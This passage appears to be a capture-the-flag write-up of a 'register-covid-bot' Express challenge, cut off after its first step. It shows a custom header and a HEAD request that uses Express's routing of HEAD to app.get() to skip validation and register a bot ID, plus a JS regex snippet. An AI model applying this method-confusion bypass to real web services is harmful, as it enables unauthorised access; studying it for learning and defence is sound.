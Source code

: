 ```
// All requests - add the headers:
x-covid-bot:12345678-1234-4123-8123-1234567890ab
```

First step is to add a new UUID to the db by going to the app.get() routing by using HEAD. Bypass the validating as express routes HEAD to app.get():
```
HEAD /register-covid-bot?newID=12345678-1234-4123-8123-1234567890ab
```
```js
// Declaring and initializing variables with a JSON object can set the value directly if the keys match
COVID_BOT_ID_REGEX = /^[a-f0-9]{8}-[a-f0-9]{4}-4[a-f0-9]{3}-[89aAbB][a-f0-9]{3}-[a-f0-9]{12}$/g;

let { newID } = {"newID":"12345678-1234-4123-8123-1234567890ab"};
console.log(newID);

if (newID.match(COVID_BOT_ID_REGEX)) {
    console.log("Matched");
}
```

Second step is to POST